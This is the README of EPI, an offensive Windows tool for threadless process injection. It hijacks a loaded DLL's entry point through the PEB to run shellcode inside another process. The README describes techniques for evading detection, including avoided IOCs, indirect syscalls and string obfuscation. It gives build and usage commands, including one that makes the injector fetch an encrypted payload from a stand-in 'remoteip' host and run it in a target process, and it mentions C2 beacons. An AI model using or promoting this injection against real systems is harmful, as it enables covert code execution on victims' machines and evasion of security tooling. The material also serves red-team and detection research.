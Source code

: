 # EPI

EPI (Entry Point Injection) is a tool that leverages a new threadless process injection technique that relies on hijacking loaded dll's [entry points](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain). To achieve this goal, EPI patches the target process' PEB such that one of the already loaded dll's entry point is redirected to a injected shellcode (which by default is the Loader previously converted to sRDI). Once a new thread is naturally spawned by the process or whenever a running thread exits, all loaded modules' entry points will be called which includes our injected shellcode. 

Since we want the target process to continue its execution smoothly, generally speaking it is a bad idea to run our payload directly on the thread that is calling the hijacked entry point. For example, the direct execution of a C2 becon would completely hijack the thread which would surely lead to the program crash in case that the application is expecting the thread to perform a certain task. To deal with this situation, EPI by default does not directly inject the desired payload but a custom Loader, which is a regular dll converted to [sRDI](https://github.com/monoxgas/sRDI). The Loader has embedded the encrypted final payload (for example, the previously commented C2 beacon), and its main task is to decrypt, allocate and run this payload in a stable way. To achieve the execution keeping the "threadless" nature of the technique, the Loader will use the process' thread pool to run the payload by calling [RtlQueueWorkItem](https://learn.microsoft.com/es-es/windows/win32/api/threadpoollegacyapiset/nf-threadpoollegacyapiset-queueuserworkitem). The use of RtlQueueWorkItem ensures that, even in the case that a new thread is spawned (it depends on the thread pool availability), the start routine's address will never point to our payload avoiding that particular IOC.

Before exiting, the Loader restores the PEB and other modified structures to their previous state, preventing the multiple execution of our payload and allowing the process to continue its normal execution.

By default, this tool hijacks `kernelbase.dll` entry point. Feel free to target a different dll, but make sure that the dll is loaded in both processes involved in this activity.

The provided shellcode embedded in the Loader spawns a new `cmd.exe /k msg "hello from kudaes"` process.

The advantages of this technique are the following:
* Both threadless or threaded execution, at will.
* No hooking (i.e. no RX memory regions are patched with JMP or CALL instructions).
* No generation of private memory regions on well known dll's RX memory pages.
* No RWX memory permissions required.
* The targeted process can continue its regular execution.
* No new threads with a start address pointing to our shellcode.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	C:\Users\User\Desktop\EPI> set LITCRYPT_ENCRYPT_KEY="setarandomkeyeachtime"

Then, depending on how you want to use the tool we have three different compilation processes.

## Use the tool as it is provided

In this case, you just need to compile the EPI project:
	
	C:\Users\User\Desktop\EPI\EPI> cargo build --release

After that, run the tool:
	
	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -h 

## No Loader - Custom payload

If you just want to directly execute your custom shellcode without using the Loader (which is **highly unrecommended**), just run `builder.py` with the flag `-p` indicating the full path of your payload file. Then, just run `epi.exe`:

	C:\Users\User\Desktop\EPI> python3 builder.py -p c:\path\to\payload.bin
	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -h 

Be aware that, depending on the behaviour of your shellcode, you might end up hijacking the thread and potentially causing a process crash. Also, take into account that no cleanup will be performed when injecting this way, leading to all kind of unexpected process behaviours.

## Loader & Custom payload

This is my recommended choice, since it allows you to fully customize the execution in the most reliable way. This is the right option if you want to run a different payload than the one provided and use the functionality of the Loader to avoid the crash of the target process. Also, the Loader is responsible for performing the cleanup and restoring the modified structures to their previous state.

To build the tool, run `builder.py` with the `-l` flag to indicate the use of the Loader. In case you want to enable the use of indirect syscalls in the Loader, you can do so by passing the `-i` flag.

	C:\Users\User\Desktop\EPI> python3 builder.py -l -p c:\path\to\payload.bin [-i]

This execution will embed your payload in the Loader, compile the Loader, convert it into sRDI and embed the final PIC code in the injector. Once the builder ends its execution, the injector is ready to be used:

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p <PID> [flags]

If you don't want to embed the final PIC code in the resulting binary, you can encrypt it (simple xor encryption) passing the `-d` flag to the builder and then download it directly into the injector's process memory using HTTP:

	C:\Users\User\Desktop\EPI> python3 builder.py -l -p c:\path\to\payload.bin -d [-i]

The resulting encrypted payload will be written to the `payload` directory. The encryption key will be the same value used for the `LITCRYPT_ENCRYPT_KEY` environment variable. This value has to be passed to `epi.exe` to be able to decrypt the payload in runtime:

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p <PID> -u http://remoteip/payload.bin -k setarandomkeyeachtime [flags]

# Usage 

The basic usage is by passing to the tool the PID of the target process and waiting for a thread to spawn/exit:

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337

In case that you need to enable the `DEBUG` privilege to perform the injection, you can use the flag `-d`. Also, the use of indirect syscalls in the injector can be enabled using the `-i` flag.

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337 -d -i 

If you do not want to wait until a new thread is naturally spawned, you can use the flag `-f` to spawn a new dummy thread. This dummy thread will run [ExitThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitthread) (i.e. it's a self destructing thread), but before that it will call every single loaded module's entry point, including our shellcode. The good part of this is that despite making the technique threaded, the new spawned thread's initial routine will point to ExitThread and not to our injected shellcode.

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337 -f

Finally, you can also force the execution of the injected shellcode by sending a [WM_QUIT](https://learn.microsoft.com/en-us/windows/win32/winmsg/wm-quit) message to ALL threads of the target process. If there is any thread listening for this kind of messages it will exit itself by calling ExitThread, which internally calls every loaded module's entry point to allow them to uninitialize and free resources. In this scenario, our shellcode will be executed as well. **BE AWARE** that this most likely will "terminate" the process, meaning that the user won't be able to interact with it anymore although the shellcode execution will continue in the background. This method is not recommended to run any long-term payload. 

 	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337 -s

In case that you built the payload so that it is downloaded directly into memory, the `-u` (remote HTTP site serving the payload) and `-k` (decryption key) flags must be passed to the injector.
	
	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p <PID> -u http://remoteip/payload.bin -k setarandomkeyeachtime [flags]

# Tips

 If you want to exploit the threadless nature of this technique, you need to chose wisely the target process. The best processes are those with user interaction, since they are constantly creating and destroying threads.

 To test EPI, I like to target my favourite text editor: Sublime Text. Besides the fact that I love it, it's also very simple to force it to spawn a new thread, allowing me to easily test EPI. If you want to do it as well, just follow these simple steps:

* Run Sublime Text.
* Inject on it using EPI's basic usage.
* Click on "File" -> "Open File". This will create a new thread and your shellcode will be executed.
* Keep using Sublime to verify that the process continues to run normally.

![Sublime Text injection.](/images/sublime1.png "Sublime Text injection.")

In case that you want to test the execution of the shellcode when a thread exits, you can do so as well with Sublime Text this way:

* Run Sublime Text.
* Click on "File" -> "Open File".
* Inject your shellcode using EPI's basic usage.
* Click on "Cancel" to exit the previously generated thread. Your shellcode will be executed by the terminating thread.
* Keep using Sublime to verify that the process continues to run normally.

Actually, you could also just wait for a minute or less since most of this kind of apps are constantly creating new threads in the background even without any user interaction.

# TODO

* Clean memory artifacts.
* Allow to target other dll than kernelbase.dll.

# Credits

* [monoxgas](https://github.com/monoxgas) for the astonishing [sRDI](https://github.com/monoxgas/sRDI) project that I have leveraged to convert the Loader dll into PIC.
* [memN0ps](https://twitter.com/memN0ps) for the hard work and all the effort shown in improving [srdi-rs](https://github.com/memN0ps/srdi-rs).
